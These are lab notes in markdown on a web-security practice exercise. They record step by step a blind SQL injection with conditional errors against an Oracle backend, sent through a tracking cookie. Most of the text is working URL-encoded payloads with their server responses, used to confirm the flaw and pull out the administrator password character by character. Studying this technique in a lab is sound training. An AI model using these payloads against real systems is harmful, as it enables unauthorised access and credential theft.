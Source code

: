 # Lab: Blind SQL injection with conditional errors

vulnerable parameter - tracking cookie

End Goals:

- Output the administrator password
- Login as the administrator user

Analysis:

1- _Prove that parameter is vulnerable_

KlPjynD5MxkBOSEj'+order+by+1--; -> interpreted as sql code & number of columns is 1

KlPjynD5MxkBOSEj'+union+select+null-- -> 500 internal server error

TrackingId=KlPjynD5MxkBOSEj'+union+select+null+from+dual-- -> oracle

2- _Confirm that users table exists in the database_

'+union+select+null+from+users--; -> 200 ok -> users table exists

3- _Confirm that the administrator users exists in the database_

NOTE THAT : The previous payloads worked as well because when they goes wrong they raises Errors

so in case determining if the administrator exists in the database or not we need to enforce errors in the database
ex:

'+union+select+null+from+users+where+username='administrator'-- -> 200 ok

'+union+select+null+from+users+where+username='ayhaga'-- -> 200 ok !!

syntax for  conditional statement in sql

SELECT  CASE    WHEN    (condition )  THEN do_code_in_case_true ELSE do_code_in_case_false  END FROM dual

' union select  case when (username='administrator') then '' else to_char(1/0) end from users where username='administrator' -- -> 200 ok

' union select  case when (username='foo') then '' else to_char(1/0) end from users where username='administrator' -- -> 500 internal server error

in order to understand the previous payload we need to understand the execution of the query

- first  the engine tries to find a row that specify the WHERE condition
- if found any , then executes the select statement
- so in our case the following has been done
  - if there any row with username = "administrator" ? -> yes
  - then let's execute the select statement ... the select statement says that
  - if the user name = 'administrator' -> '' -> do nothing
  - if not raise error
another example:
'+union+select++case+when+(1%3d1)+then+''+else+to_char(1/0)+end+from+users+where+username%3d'administrator'+-- -> 200 ok

'+union+select++case+when+(1%3d0)+then+''+else+to_char(1/0)+end+from+users+where+username%3d'administrator'+-- -> 500 internal server error -> which meanse the

select statement gave been executed (we have inserted condition that raises error on purpose) , which means there is a row with username = 'administrator'

'+union+select++case+when+(1%3d0)+then+''+else+to_char(1/0)+end+from+users+where+username%3d'ayhaga'+-- -> 200 ok

'+union+select++case+when+(1%3d1)+then+''+else+to_char(1/0)+end+from+users+where+username%3d'ayhaga'+-- -> 200 ok

4- Determin length of password
'+union+select++case+when+(length(password)%3d1)+then+''+else+to_char(1/0)+end+from+users+where+username%3d'administrator'+-- -> 500 internal server error

'+union+select++case+when+(length(password)%3d20)+then+''+else+to_char(1/0)+end+from+users+where+username%3d'administrator'+-- -> 200 ok

the length of the password is = 20 digit
<!-- ' select  case when (1=0) then '' else to_char(1/0) end from users where username='administrator' -- -->

5- Brute force the administrator password

'+union+select++case+when+(substr(password,1,1)%3d'a')+then+''+else+to_char(1/0)+end+from+users+where+username%3d'administrator'+-- -> 500 internal server error

'+union+select++case+when+(substr(password,1,1)%3d'2')+then+''+else+to_char(1/0)+end+from+users+where+username%3d'administrator'+-- -> 200 ok

substr("string" , start_position , size)
the first char is 2

- using intruder (cluster bomb)
1 2 3 4  5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
2            b                              e  e

-----
python script.py "url" "tracking id cookie" "session cookie"
